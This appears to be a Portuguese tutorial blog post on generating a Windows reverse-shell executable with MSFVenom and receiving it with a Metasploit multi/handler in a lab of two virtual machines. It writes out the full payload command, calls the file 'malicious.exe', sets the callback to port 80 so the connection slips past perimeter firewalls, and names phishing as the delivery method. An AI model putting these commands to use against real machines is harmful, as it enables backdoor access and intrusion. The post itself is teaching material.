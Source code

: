 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). O nomes mais comum desse tipo de ataque é backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração na criação do payload. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali vai receber a conexão da vítima e para que essa comunicação aconteça, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/meterpreter/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows fica disponível.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída do comando ser paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo acima. 

